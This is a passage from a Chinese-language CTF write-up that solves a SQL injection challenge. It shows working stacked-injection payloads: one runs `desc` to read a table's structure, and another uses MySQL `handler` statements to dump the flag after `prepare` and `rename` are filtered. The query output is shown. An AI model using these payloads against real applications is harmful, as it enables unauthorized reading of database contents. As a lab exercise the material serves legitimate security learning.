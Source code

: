 `1';desc FalgHere;#`查看`FlagHere`表的结构

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
------------------------
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
------------------------
```

flag就在这里了。接下来可以用`prepare`设置计划任务，也可以`rename`更改表名，但是这些关键字都被过滤了。所以这里需使用`handler`来实现注入。:no_mouth:

> 在堆叠注入中，可以利用`handler`直接列出需要查询内容的表的数据，只需要知道表名
>
> - https://blog.csdn.net/mochu7777777/article/details/109577534

`1';handler FlagHere open;handler FlagHere read first;#`即可

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
------------------------
array(1) {
  [0]=>
  string(42) "flag{eb3f6fba-9f4e-402a-9252-c258ce1fe7cb}"
}
------------------------
```

### 参考链接

- [i春秋2020新春公益赛 GYCTF有关SQL注入题复现](https://qwzf.github.io/2020/05/02/i%E6%98%A5%E7%A7%8B2020%E6%96%B0%E6%98%A5%E5%85%AC%E7%9B%8A%E8%B5%9B%20GYCTF%E6%9C%89%E5%85%B3SQL%E6%B3%A8%E5%85%A5%E9%A2%98%E5%A4%8D%E7%8E%B0/)
